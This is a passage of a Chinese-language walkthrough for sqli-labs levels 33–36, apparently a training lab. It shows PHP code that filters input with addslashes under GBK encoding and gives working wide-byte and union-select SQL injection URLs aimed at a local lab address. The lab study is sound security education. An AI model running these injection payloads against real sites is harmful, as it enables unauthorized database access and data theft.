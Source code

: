 ## ***Less-33 Bypass addslashes()***

    $id=check_addslashes($_GET['id']);
    //echo "The filtered request is :" .$id . "<br>";
    
    function check_addslashes($string)
    {
   		$string= addslashes($string);
    	return $string;
    }
    
    mysql_query("SET NAMES gbk");


与上关绕过方法一样样。

## ***Less-34- Bypass Add SLASHES***


burp抓包，进行注入，和32关步骤一样。

![NzYx76.png](https://s1.ax1x.com/2020/07/04/NzYx76.png)

## ***Less-35 why care for addslashes()***

不关测试双引号还是单引号都会报错。`http://192.168.2.222/sqli-labs-master/Less-35/?id=1%df"`,根据报错得知为数字型注入。

直接注入：`http://192.168.2.222/sqli-labs-master/Less-35/?id=-1 union select 1,database(),3`

    
    $id=check_addslashes($_GET['id']);
    
    function check_addslashes($string)
    {
    	$string = addslashes($string);
    	return $string;
    }


`addslashes()` 函数返回在预定义字符之前添加反斜杠的字符串。

预定义字符是：

    单引号（'）
    双引号（"）
    反斜杠（\）
    NULL

其实本关设置了过滤，但应为是数字型注入，没啥用。

## ***Less-36 Bypass MySQL Real Escape String***

测试单引号`http://192.168.2.222/sqli-labs-master/Less-36/?id=1%df'`,报错`'1�\'' LIMIT 0,1'`,

`http://192.168.2.222/sqli-labs-master/Less-36/?id=1%df' --+`页面正常，所以闭合方式为单引号。

payload:`http://192.168.2.222/sqli-labs-master/Less-36/?id=-1%df' union select 1,database(),3--+`
